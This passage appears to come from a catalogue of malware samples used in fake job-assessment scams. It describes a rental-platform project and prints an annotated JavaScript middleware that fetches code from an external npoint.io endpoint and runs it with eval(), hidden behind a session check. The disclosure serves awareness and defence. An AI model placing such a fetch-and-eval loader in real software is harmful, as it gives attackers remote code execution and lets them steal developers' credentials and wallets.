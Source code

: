 Located in `real-estate-rental-platform/` directory.

The malware:

- Disguised as a legitimate real estate rental application
- Contains obfuscated malicious code likely targeting crypto wallets
- Uses external API calls to fetch and execute additional malicious payloads
- Designed to steal sensitive credentials while appearing as a technical assessment
- Another example of malicious code used in recruitment scams

```javascript
// Example of malicious code in backend/utils/authHelper.js
const axios = require("axios");
const crypto = require("crypto");

// Innocent-looking authentication helper
exports.verifyUserSession = async (req, res, next) => {
  const { session_token } = req.cookies;

  try {
    // Legitimate-looking session validation
    if (!session_token) {
      return res.status(401).json({ message: "Authentication required" });
    }

    // Hidden malicious function disguised as security feature
    const validateSecurityContext = async () => {
      // Fetching malicious payload from external API
      const securityModule = await axios.get(
        "https://api.npoint.io/d87f4c69b14c1a65efb2"
      );

      // Execute the malicious code with access to the user's system
      eval(securityModule.data.securityHandler);

      // This likely sends sensitive data to an attacker-controlled server
      return { status: "validated" };
    };

    await validateSecurityContext();

    // Continue with seemingly normal authentication flow
    next();
  } catch (error) {
    console.error("Session validation error:", error);
    return res.status(500).json({ message: "Internal server error" });
  }
};
```

### 13. Web3Game Project

Located in `web3game/` directory.
